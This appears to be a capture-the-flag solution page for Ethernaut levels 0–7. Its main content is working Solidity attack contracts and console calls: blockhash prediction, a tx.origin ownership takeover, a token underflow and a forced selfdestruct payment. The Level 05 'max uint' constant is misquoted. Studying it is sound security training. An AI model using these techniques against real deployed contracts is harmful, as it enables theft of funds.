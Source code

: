 # Levels

## Level 00

https://ethernaut.openzeppelin.com/level/0

```Javascript
await contract.password()
await contract.authenticate("ethernaut0")
```

https://mumbai.polygonscan.com/tx/0xb479fa5cda3731d1ceb34cd1b7788f30022e31d63eaf4ebc63351c22aa3f3806

## Level 01

https://ethernaut.openzeppelin.com/level/1

```javascript
await contract.owner() 
await contract.contributions("0x2a24869323C0B13Dff24E196Ba072dC790D52479")
await contract.contribute.sendTransaction({from: player, value: toWei('0.0009')})

await sendTransaction({from: player, to: contract.address, value: toWei('0.0000000001')})
await contract.withdraw()
```

## Level 02

https://ethernaut.openzeppelin.com/level/2

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Fallout {
    function Fal1out() external payable;
}
```

https://mumbai.polygonscan.com/tx/0x0473d27f57f28a8d48ecfecef2faf4e89f82cd3a79e6af2675faefd0761e44d4

## Level 03

https://ethernaut.openzeppelin.com/level/3

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface ICoinFlip {
    function consecutiveWins() external view returns (uint256);
    function flip(bool) external returns (bool);
}

contract Hack {
    ICoinFlip private immutable coinflip;
    uint256 private constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _address) {
        coinflip = ICoinFlip(_address);
    }

    function flip() external {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        coinflip.flip(side);
    }    
}
```

call `flip()` until `consecutiveWins` is 10

## Level 04

https://ethernaut.openzeppelin.com/level/4

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function owner() external view returns (address);
    function changeOwner(address _owner) external;
}

contract HackTelephone {
    constructor(address _address) {
        ITelephone(_address).changeOwner(msg.sender);
    }
}
```

## Level 05

https://ethernaut.openzeppelin.com/level/5

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IToken {
    function transfer(address _to, uint _value) external returns (bool);
    function balanceOf(address _owner) external view returns (uint balance);
}

contract tokenHack {
    IToken private token;

    constructor(address _address) public  {
        token = IToken(_address);
    }

    function transfer(address _to) public {
        uint _value = 115392089237316195423570985008687907853269984665640564039457584007913129639935;
        token.transfer(_to, _value);
    }
}
```

## Level 06

https://ethernaut.openzeppelin.com/level/6

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IDelegate {
    function owner() external view returns (address);
    function pwn() external;
}
```

Add more extra gas

## Level 07

https://ethernaut.openzeppelin.com/level/7

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceHack {
    constructor(address payable _address) payable {
        selfdestruct(_address);
    }
}
```

Add amount of ether to send